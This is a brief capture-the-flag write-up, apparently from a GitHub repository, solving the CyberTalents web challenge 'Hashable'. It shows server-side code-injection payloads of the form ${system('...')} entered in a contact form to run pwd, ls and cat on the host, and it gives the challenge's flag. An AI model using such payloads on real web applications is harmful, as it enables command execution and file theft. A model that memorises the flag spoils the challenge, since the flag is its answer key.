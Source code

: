 # CyberTalents
## Web Security

### Challenge Name:
 [*Hashable*](https://cybertalents.com/challenges/web/hashable)
 
### Challenge Description
A famous enterprise blog was hacked, can you figure out how it was hacked?

Link: [ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/hashable/](ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/hashable/)

### Solution
* We must try in every user input field (URL and contact page)
* Try some special characters in the textboxes it doesn't filtered
* Try to injuct code in massager box 
```
${system('pwd')}
```
* It works so now get files list
```
${system('ls')}
```
* Open flag text file
```
${system('cat flag_23894ABCX1.txt')}
```
* You got the flag!!


### The Flag
 > 18ab51f960bd149bcb2497b9998c752c 
